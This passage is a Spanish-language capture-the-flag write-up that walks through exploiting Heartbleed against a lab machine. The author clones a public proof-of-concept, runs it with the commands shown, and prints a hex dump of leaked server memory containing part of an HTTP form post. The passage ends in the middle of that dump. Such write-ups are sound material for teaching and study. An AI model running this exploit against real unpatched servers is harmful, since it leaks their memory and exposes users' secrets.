 
<h2 id="Exploit">Buscando el Exploit Heartbleed</h2>

Mira encontré este:
* https://github.com/mpgn/heartbleed-PoC

Por lo que entiendo, el Exploit tratara de extraer información almacenada en la memoria del servidor de la máquina y lo guardara en un archivo llamado **out.txt**. 

Vamos a clonarlo y a probarlo:
```bash
git clone https://github.com/mpgn/heartbleed-PoC.git            
Clonando en 'heartbleed-PoC'...
remote: Enumerating objects: 19, done.
remote: Total 19 (delta 0), reused 0 (delta 0), pack-reused 19
Recibiendo objetos: 100% (19/19), 5.79 KiB | 456.00 KiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

Nos metemos al directorio que se creó y vamos a probar el Exploit:
```bash
python2 heartbleed-exploit.py 10.10.10.79                                                                                  
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
```

Saco algo, puedes ver que se creó un archivo llamado **out.txt**:
```bash
ls
heartbleed-exploit.py  out.txt  README.md  utils
```

**OJO:** utilice el comando **grep** para eliminar parte del output que se repitió mucho, aquí tienes una página que muestra lo útil del comando **grep**:
* https://geekland.eu/uso-del-comando-grep-en-linux-y-unix-con-ejemplos/

Ahora sí, veamos el contenido:
```bash
cat out.txt | grep -v '00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00'
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
```